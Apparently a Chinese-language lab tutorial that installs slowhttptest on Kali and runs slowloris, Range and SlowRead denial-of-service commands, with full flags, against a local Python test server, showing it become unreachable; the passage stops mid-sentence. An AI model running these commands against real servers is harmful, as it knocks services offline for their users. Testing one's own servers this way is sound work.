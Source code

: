 ## 安装

在kali下执行以下命令，执行命令安装

apt-get install slowhttptest

## 测试

启动一个简易http服务

python -m http.server 9000

![启动python的简易服务器](./img/slowhttptest/启动简易http服务.png)
 
通过浏览器访问

![浏览器访问](./img/slowhttptest/浏览器访问1.png)

执行测试

slowloris模式

slowhttptest -c 1000 -H -g -o header_stats -i 10 -r 200 -t GET -u http://192.168.31.64:9000 -x 24 -p 3

Range模式

slowhttptest -R -u http://192.168.31.64:9000 -t HEAD -c 100 -a 10 -b 3000 -r 500

SlowRead模式

slowhttptest -c 8000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u http://192.168.31.64:9000 -p 3

我选择的第一个

![执行测试](./img/slowhttptest/执行测试.png)

再次去访问时

![执行测试](./img/slowhttptest/无法访问.png)

服务已经不能







